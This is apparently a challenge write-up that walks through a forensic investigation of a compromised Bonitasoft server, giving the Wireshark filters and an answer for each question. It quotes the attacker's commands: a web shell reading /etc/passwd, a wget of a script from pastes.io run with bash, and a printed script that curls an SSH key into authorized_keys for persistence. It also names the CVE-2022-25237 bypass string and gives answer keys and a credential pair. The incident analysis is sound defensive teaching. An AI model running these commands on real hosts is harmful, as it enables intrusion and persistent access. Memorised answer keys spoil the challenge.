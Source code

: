 # We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

filter ```http``` Wireshark; notice URL has 'bonita'

open JSON alerts file and search ```bonita``` to find entries for 'Bonitasoft' (confirm with search if desired)

## Answer
```bonitasoft```

# We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

filter to ```http.request.method=="POST"``` and notice all the logins

expand the form information to see different usernames and passwords

looks like credential stuffing 

## Answer 
Credential Stuffing

# Does the vulnerability exploited have a CVE assigned - and if so, which one?
If you searched the JSON alerts file for Bonitasoft you likely already saw a CVE number such as this line (and others)
```ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"```

We can also search "Bonitasoft credential stuffing" (or similar) and/or the above CVE number and check results e.g. NVD

## Answer
CVE-2022-25237

# Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
The NVD description (https://nvd.nist.gov/vuln/detail/CVE-2022-25237) will have this information and we can verify
in the PCAP file

```http.request.method=="POST" && http.request.uri contains "i18ntranslation"```

## Answer
i18ntranslation

# How many combinations of usernames and passwords were used in the credential stuffing attack?
Let's look at all the form submissions

```http.content_type == "application/x-www-form-urlencoded"```

Taking a look at a few we see that each one is followed up with another showing "install:install" so let's remove those

```http.content_type == "application/x-www-form-urlencoded" && urlencoded-form.value != "install"```\

This leaves us with 59 packets but if we look at the last three we see the same credentials (seb.broom@forela.co.uk:g0vernm3nt
) indicating a change, we can check the response to see that this credential was successful (204 response rather than 401 for the others).

Ultimately, there are 4 packets in our filtered list associated with the successful reqest meaning that we have 56 unique username:password attempts

## Answer
56

# Which username and password combination was successful?
As we discovered above "seb.broom@forela.co.uk:g0vernm3nt" was the successful username:password pair


## Answer
seb.broom@forela.co.uk:g0vernm3nt

# If any, which text sharing site did the attacker utilise?
After successful authentication the attacket makes a POST to upload "rce_api_extension.zip" then follows with a few GET requests including a "cmd=whoami", "cmd=cat%20/etc/passwd" and a ```"cmd=wget%20https://pastes.io/raw/bx5gcr0et8"``` then subsequently executes this file with "cmd=bash%20bx5gcr0et8"

## Answer
pastes.io

# Please provide the filename of the public key used by the attacker to gain persistence on our host.
If we follow the link to which the wget command pointed we arrive at a page with a simple bash script containing a curl command to append an SSH key to authorized_keys and restart the SSH service:
    #!/bin/bash
    curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
    sudo service ssh restart

## Answer
hffgra4unv

# Can you confirmed the file modified by the attacker to gain persistence?
As we see above the modified file is the authorized_keys file which is appended with a new key

## Answer
/home/ubuntu/.ssh/authorized_keys

# Can you confirm the MITRE technique ID of this type of persistence mechanism?
Going to the ATT&CK Navigator and creating a new layer with the Enterprise matrix (https://mitre-attack.github.io/attack-navigator/) a simple search on SSH quickly reveals a result "Account Manipulation : SSH Authorized Keys". Click view to be taking to the description (https://attack.mitre.org/techniques/T1098/004/) which, of course, includes the ID 

## Answer
T1098.004